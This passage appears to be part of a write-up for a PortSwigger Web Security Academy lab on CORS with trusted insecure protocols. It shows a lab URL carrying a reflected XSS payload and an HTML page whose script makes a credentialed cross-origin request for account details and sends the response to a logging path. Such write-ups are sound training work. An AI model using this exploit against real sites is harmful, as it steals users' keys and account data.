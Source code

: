 ![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/6.png)

The url is the following one, a subdomain (stock) which uses HTTP:

```
http://stock.0a0900840416f0db818ac0da00ca0002.web-security-academy.net/?productId=%3Cscript%3Ealert(1)%3C/script%3E&storeId=1
```

CORS code from previous lab:

```
<html>
  <body>
    <script>
        var req = new XMLHttpRequest();
        var url = ("URL");
        req.onload = retrieveKeys;
        req.open('GET', url + "/accountDetails",true);
        req.withCredentials = true;
        req.send(null);
        function retrieveKeys() {
            location='/log?key='+this.responseText;
        };
  </script>
  <body>
</html>
```

